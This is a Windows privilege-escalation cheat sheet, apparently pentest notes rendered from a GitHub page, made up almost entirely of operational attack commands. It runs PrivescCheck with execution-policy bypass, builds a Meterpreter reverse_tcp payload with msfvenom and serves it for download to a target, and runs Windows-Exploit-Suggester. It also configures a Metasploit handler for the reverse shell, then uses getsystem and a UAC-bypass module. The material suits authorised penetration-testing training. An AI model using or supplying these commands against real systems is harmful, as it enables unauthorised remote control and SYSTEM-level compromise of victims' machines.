 ## **Windows Privilege Escalation**

```powershell
# PrivescCHECK - PowerShell script
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME% -Format TXT,CSV,HTML,XML"

## Basic mode
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

## Extended Mode + Export Txt Report
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
```

### **Kernel**

```bash
# WIN KERNEL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe -o payload.exe

python3 -m http.server
# Download payload.exe on target
```

```bash
## Windows-Exploit-Suggester Install
mkdir Windows-Exploit-Suggester
cd Windows-Exploit-Suggester
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/f34dcc186697ac58c54ebe1d32c7695e040d0ecb/windows-exploit-suggester.py
# ^^ This is a python3 version of the script

cd Windows-Exploit-Suggester
python ./windows-exploit-suggester.py --update
pip install xlrd --upgrade

./windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xlsx --systeminfo win7sp1-systeminfo.txt

./windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xlsx --systeminfo win2008r2-systeminfo.txt
```

```bash
## METASPLOIT
## Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
options
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

use post/multi/recon/local_exploit_suggester
set SESSION <HANDLER_SESSION_NUMBER>

## MsfConsole Meterpreter Privesc
getprivs
getsystem

# Exploitable vulnerabilities modules
exploit/windows/local/bypassuac_dotnet_profiler
```